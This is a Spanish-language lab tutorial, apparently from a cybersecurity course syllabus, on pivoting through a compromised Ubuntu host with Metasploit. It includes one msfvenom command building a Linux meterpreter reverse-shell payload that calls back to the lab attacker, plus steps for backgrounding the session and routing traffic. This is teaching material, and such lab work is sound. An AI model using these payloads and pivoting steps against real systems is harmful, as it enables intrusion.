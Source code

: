 La máquina Kali con Metasploit Framework será desde donde realizaremos la intrusión. Tiene dos interfaces de red, una en modo NAT (eth1 simplemente para tener salida a Internet) y eth0 con la IP asignada 10.0.0.1 que forma parte de la red 10.0.0.0/24. Esta máquina no tiene visibilidad directa con la segunda red 11.0.0.0/24.

![kali-metasploit](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/kali-metasploit.png?raw=true)

La máquina Ubuntu tiene dos interfaces la cual tiene visibilidad con la red 10.0.0.0/24 y 11.0.0.0/24 será el pivoting y la segunda máquina Linux con una sola interface con la ip asignada 11.0.0.10 que tendrá visibilidad para la red 11.0.0.0.0/24, esta será una posible máquina vulnerable ya que dispondrá de un servicio web Apache a la que tendremos que intentar llegar desde la máquina Kali.

![ubuntu](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/ubuntu.png?raw=true)

## Establecer una sesión Meterpreter en la máquina Ubuntu (pivoting)

El funcionamiento de los tipos de pivoting dentro de las posibilidades que nos ofrece Metasploit Framework debemos partir de la obtención de una sesión Meterpreter en uno de los equipos de la red, en este caso será el Ubuntu en el cual tiene visibilidad con las dos redes dentro de este laboratorio, esta será la máquina que nos hará de pivoting a las redes que tenga configuradas. Para este escenario podemos generar con msfvenom un payload en el que su shellcode será un meterpreter linux y ejecutarlo en la máquina remota para obtener dicha sesión.

```bash
msfvenom -p Linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o payload
```

- *b '\x00\x0a\x0d'*: (--bad-chars) Parámetro en el que se le puede especificar una lista de caracteres a evitar, de modo que no provoque un posible error en el momento de ejecutar el payload. En este caso estos *[opcodes](https://en.wikipedia.org/wiki/Opcode)* serían válidos.

![opcodes](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/opcodes.png?raw=true)

## Route

Una vez tenemos una sesión establecida con la máquina Ubuntu, iniciamos el meterpreter y una forma de comprobar las redes asociadas es listar las interfaces de red con *ipconfig* para comprobar si existe alguna dirección IP asignada que forme parte de otro segmento de red distinto. También podríamos ejecutar una *shell* dentro de meterpreter y consultar la tabla de rutas con el comando *route print*. Como vemos se muestra la red 10.0.0.0/24 en la interface 2 y la 11.0.0.0/24 en la interface 3.

![route](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/route.png?raw=true)

***Route*** es un comando que nos permitirá encaminar tráfico de red dentro de Metasploit, diciéndole que desde cualquier módulo todo el tráfico que queramos llevar hacia otra red lo haga a través del identificador de una sesión establecida que tengamos activa, por ejemplo con un Meterpreter.

Salimos de la sesión de meterpreter y la dejamos en segundo plano saliendo con el comando *background*. Fuera de meterpreter y sabiendo que la máquina Ubuntu tiene dos redes configuradas, hacemos uso del comando route para añadir la visibilidad de esta nueva red a nivel de Metasploit.
